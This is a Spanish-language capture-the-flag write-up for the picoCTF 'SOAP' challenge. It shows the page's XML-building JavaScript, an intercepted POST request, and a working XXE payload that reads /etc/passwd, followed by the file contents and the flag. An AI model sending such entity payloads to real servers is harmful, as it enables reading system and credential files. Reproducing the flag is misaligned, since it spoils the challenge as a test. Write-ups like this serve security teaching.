 # SOAP

## Descripcion
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:55018/)
## Solucion

Iniciamos la instancia del reto.
Accedemos al sitio y nos damos cuenta de que es un sitio simple que tiene una estructura sencilla en la que hay 3 botones
Al ver el código fuente vemos que los botones hacen un POST

```html
<div class="col-md-4">
	<div class="card mb-4 shadow-sm">
		<img src="[/static/image2.png](http://saturn.picoctf.net:61106/static/image2.png)" class="bd-placeholder-img
card-img-top" width="100%" height="225">
	<div class="card-body">
		<p class="card-text"><b>Carnegie Mellon University Africa</b> Offers 3 masters degree programs.</p>
	<div class="d-flex justify-content-between align-items-center">
		<div class="btn-group">
			<form class="detailForm" action="/data" method="POST">
				<input required type="hidden" name="ID" value="1">
			<button type="submit" class="btn btn-smbtn-outline-secondary">Details</button>
			</form>
		</div>
	</div>
	</div>
	</div>
</div>
```

Vemos que tiene un js que de algun modo se relaciona con estos botones para pedir los datos al servidor, y vemos como es que se forma la parte del xml

```js
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```

Ahora que tenemos la información y sabemos que es una vulnerabilidad de XXE para regresar archivos nos vamos a Burpsuit e interceptamos la peticion.
En el proxy de Burp vemos como la peticion es formada y enviada

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:61106
Content-Length: 61
Accept-Language: es-419
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61106
Referer: http://saturn.picoctf.net:61106/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```
 
Ahora procedemos a seguir los pasos para hacer el xxe injection

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:61106
Content-Length: 61
Accept-Language: es-419
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61106
Referer: http://saturn.picoctf.net:61106/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<data>
		<ID>
			&xxe;
		</ID>
	</data>
```

Y esto nos regresa el contenido de todo el archivo /etc/passwd y nuestra flag

```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```

```flag
picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```
## Notas adicionales

## Referencias
